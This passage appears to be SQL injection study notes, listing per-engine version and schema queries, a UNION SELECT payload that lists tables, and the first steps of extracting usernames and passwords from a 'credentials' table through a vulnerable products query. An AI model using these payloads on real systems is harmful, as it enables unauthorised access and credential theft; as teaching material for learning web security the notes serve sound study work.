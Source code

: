 #### getting the sql engine version

We can use following query to get the sql engine version:
|Engine|Query|
|---|---|
|Oracle | SELECT banner FROM v$version|
|Microsoft SQL Server | SELECT @@version|
|MySQL | SELECT @@VERSION|
|PostgreSQL | SELECT version()|


#### getting database contents

After we know the sql engine version, we can query the contents based on following table.

|Engine|Query|
|---|---|---|
|Oracle | SELECT * FROM all_tables |SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'|
|Microsoft | SELECT * FROM information_schema.tables | SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'|
|PostgreSQL | SELECT * FROM information_schema.tables | SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'|
|MySQL | SELECT * FROM information_schema.tables | SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'|

If you cannot select everything, you can google for the column names in these default tables and select those you needed.

For example, one possible payload to get the database content for non-oracle sql engine is:

```sql
 UNION SELECT table_name, NULL FROM information_schema.tables--
```

### wrap up: retrive `credentials` database from `products` database SQL injection

First of all, we can guess the sql query of `products` is something like SELECT _something_ FROM _something_ WHERE _something_ = '$_GET['user_select']'.

In order to retrive informations from `credentials`, we need to:

1. find the table name and column name you want to retrieve.

See [Bypass limit 3: the table name and the column name](#bypass-limit-3:-the-table-name-and-the-column-name) for details.

Let's assume our desired database name is `credentials` and the desired column names are `username` and `password`.

2. find the column number of the `SELECT`.

We can apply what we learnt in [Bypass limit 2](#bypass-limit-2:-the-column-numbers) 

Assume we find the column number of `SELECT` is 2. Insert this information into the original query, we get:
SELECT _what_,_what_ FROM _something_ WHERE _something_ = '$_GET['user_select']'.
